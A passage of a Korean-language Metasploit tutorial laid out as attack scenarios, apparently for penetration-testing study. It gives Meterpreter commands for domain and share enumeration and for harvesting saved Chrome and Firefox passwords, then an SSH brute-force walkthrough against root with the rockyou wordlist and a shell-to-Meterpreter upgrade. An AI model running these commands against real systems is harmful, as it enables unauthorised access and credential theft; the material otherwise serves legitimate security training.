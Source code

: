 #### 4단계: 내부 정찰 및 측면 이동

```bash
# 도메인 정보 수집
meterpreter > run post/windows/gather/enum_domain

# 네트워크 드라이브 확인
meterpreter > run post/windows/gather/enum_shares

# 브라우저 저장된 패스워드 수집
meterpreter > run post/windows/gather/enum_chrome
meterpreter > run post/multi/gather/firefox_creds
```

## 시나리오 4: SSH 브루트포스 공격

### 상황: 리눅스 서버 SSH 서비스 대상

#### 1단계: SSH 서비스 확인

```bash
# 포트 스캔
nmap -p 22 192.168.1.0/24

# SSH 버전 확인
msf6 > use auxiliary/scanner/ssh/ssh_version
msf6 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/ssh/ssh_version) > run
```

#### 2단계: 브루트포스 공격

```bash
# 일반적인 계정으로 브루트포스
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 10
msf6 auxiliary(scanner/ssh/ssh_login) > run

# 성공시 SSH 세션 획득
```

#### 3단계: 쉘에서 Meterpreter로 업그레이드

```bash
# 세션 확인
msf6 > sessions

# 쉘을 Meterpreter로 업그레이드
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
msf6 post(multi/manage/shell_to_meterpreter) > run
```
